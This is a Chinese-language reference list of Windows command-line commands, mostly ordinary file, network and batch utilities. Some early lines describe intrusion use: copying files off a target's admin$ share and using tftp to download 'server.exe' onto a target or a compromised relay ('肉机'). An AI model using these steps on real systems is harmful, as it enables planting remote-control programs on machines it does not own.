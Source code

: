 `copy ipadmin$svv.exe c: `或:`copyipadmin$*.*` 复制对方`admini$`共享下的`srv.exe`文件（所有文件）至本地`C：`
`xcopy` 要复制的文件或目录树目标地址目录名 复制文件和目录树，用参数`/Y`将不提示覆盖相同文件
用参数`/e`才可连目录下的子目录一起复制到目标地址下。
`tftp -i 自己IP`(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：`-i`指以二进制模式传送，如传送exe文件时用，如不加`-i` 则以`ASCII`模式（传送文本文件模式）进行传送
　　`tftp -i 对方IP`　put c:server.exe 登陆后，上传本地c:server.exe至主机
　　`ftp ip 端口` 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
　　`route print `显示出IP路由，将主要显示网络地址`Network addres`，子网掩码`Netmask`，网关地址`Gateway addres`，接口地址Interface
　　`arp` 查看和处理`ARP`缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。`arp -a`将显示出全部信息
　　`start` 程序名或命令` /max` 或`/min` 新开一个新窗口并最大化（最小化）运行某程序或命令
　　`mem` 查看cpu使用情况
　　`attrib 文件名(目录名)` 查看某文件（目录）的属性
　　`attrib 文件名 -A -R -S -H 或 +A +R +S +H` 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
　　`dir` 查看文件，参数：`/Q`显示文件及目录属系统哪个用户，`/T:C`显示文件创建时间，`/T:A`显示文件上次被访问时间，`/T:W`上次被修改时间
　　`date /t 、 time /t` 使用此参数即`DATE/T`、`TIME/T`将只显示当前日期和时间，而不必输入新日期和时间

### 环境变量设置
`set` 指定环境变量名称=要指派给变量的字符 设置环境变量
`set` 显示当前所有的环境变量
`set p`(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
`pause` 暂停批处理程序，并显示出：请按任意键继续....
`if` 在批处理程序中执行条件处理（更多说明见if命令及变量）
`goto` 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
`call` 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
`for` 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
`echo on` 或`off` 打开或关闭`echo`，仅用`echo`不加参数则显示当前echo设置
`echo` 信息 在屏幕上显示出信息
`echo 信息 >> pass.txt` 将"信息"保存到pass.txt文件中
`findstr "Hello" aa.txt `在aa.txt文件中寻找字符串hello
`find 文件名 `查找某文件
`title 标题名字 `更改CMD窗口标题名字
`color 颜色值` 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
`prompt 名称` 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
`ver `在DOS窗口下显示版本信息
`winver` 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
`format 盘符 /FS:类型` 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
`md　目录名` 创建目录
`replace 源文件`　要替换文件的目录 替换文件
`ren 原文件名`　新文件名 重命名文件名
`tree` 以树形结构显示出目录，用参数-f 将列出第个文件夹中文件名称
`type 文件名` 显示文本文件的内容
`more 文件名` 逐屏显示输出文件
`doskey` 要锁定的命令=字符
`doskey` 要解锁命令= 为DOS提供的锁定命令(编辑命令行，重新调用win2k命令，并创建宏)。如：锁定`dir`命令：`doskey dir=entsky `(不能用doskey dir=dir)；解锁：`doskey dir=`
`taskmgr` 调出任务管理器
`chkdsk /F D`: 检查磁盘D并显示状态报告；加参数/f并修复磁盘上的错误
`tlntadmn telnt服务admn,`键入tlntadmn选择3，再选择8,就可以更改telnet服务默认端口23为其它任何端口
`exit` 退出cmd.exe程序或目前，用参数/B则是退出当前批处理脚本而不是cmd.exe
`path` 路径可执行文件的文件名 为可执行文件设置一个路径。
`cmd` 启动一个win2K命令解释窗口。参数：`/eff`、`/en` 关闭、开启命令扩展；更我详细说明见`cmd /?`
`regedit /s` 注册表文件名 导入注册表；参数`/S`指安静模式导入，无任何提示；
`regedit /e` 注册表文件名 导出注册表
`cacls 文件名`　参数 显示或修改文件访问控制列表（ACL）——针对NTFS格式时。参数：`/D` 用户名:设定拒绝某用户访问；`/P 用户名`:`perm` 替换指定用户的访问权限；`/G 用户名:perm` 赋予指定用户访问权限；`Perm` 可以是: `N` 无，`R` 读取， `W` 写入， `C `更改(写入)，`F` 完全控制；例：`cacls D: est.txt /D pub` 设定`d: est.txt`拒绝pub用户访问。
`cacls` 文件名 查看文件的访问用户权限列表
`REM` 文本内容 在批处理文件中添加注解
`netsh` 查看或更改本地网络配置情况
